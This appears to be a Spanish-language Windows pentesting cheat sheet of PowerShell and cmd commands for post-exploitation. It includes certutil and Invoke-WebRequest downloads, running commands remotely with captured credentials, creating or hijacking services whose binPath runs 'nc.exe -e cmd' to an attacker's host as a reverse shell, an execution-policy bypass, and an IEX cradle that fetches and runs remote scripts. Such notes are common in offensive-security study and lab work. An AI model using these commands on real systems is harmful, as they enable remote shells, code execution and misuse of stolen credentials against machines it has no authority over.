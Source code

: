 ![[Pasted image 20230215173659.png]]

---

```powershell
# Buscar archivos en el sistema desde el directorio actual
> dir /r /s {name}
# Realizar una lectura del contenido de un archivo 
> type {file}
# Migrar a usuarios 
> cacls 
# Analizar los permisos de un archivo 
```

## Descargar archivos con certutil.exe
```shell
certutil.exe -f -urlcache -split {url/file} {file}
# Descargar un archivo desde una url y depositarlo 
```

## Play with Scripts Block
```PowerShell
# Al tener credenciales, podriamos intentar ejecutar comandos con ese usuario para poder entablarnos una revershell
> $user = '{domain}\{name}'
# Guardamos en la variable user, el nombre del usuario
> $password = ConvertTo-SecureString '{password}' -AsPlainText -Force
# Guardamos en la variable password lo contraseña, ya que en texto claro nos traeria problemas.
> $cred = New-Object System.Management.Automation.PSCredential($user, $password)
# Creamos la credencial en la variable cred.
> Invoke-Command -ComputerName {computer_name} -Credential $cred -ScriptBlock { "command" }
```


## Create Reverse Shell Service
```powershell

> sc.exe create foo binPath="C:\Users\Dobliuw\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```


## Manipulate Service Settings to Execute Reverse Shell
```powershell

> sc.exe config VMTools binPath="C:\Users\dobliuw\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```

  
## Start and Stop Service
```powershell
> sc.exe start {service}

> sc.exe stop {service}
```


## Download Files with Powershell
```powershell
> Invoke-WebRequest 'http://{dominio}/{recurso}' -OutFile ''
```

  
## Bypass Execution Policy
```powershell
> Set-ExecutionPolicy Bypass -Scope Process
```

  
## Interpret Powershell from Remote Server
```powershell

> IEX(New-Object Net.WebClient).downloadString('http://{dominio}/{recurso}')
```


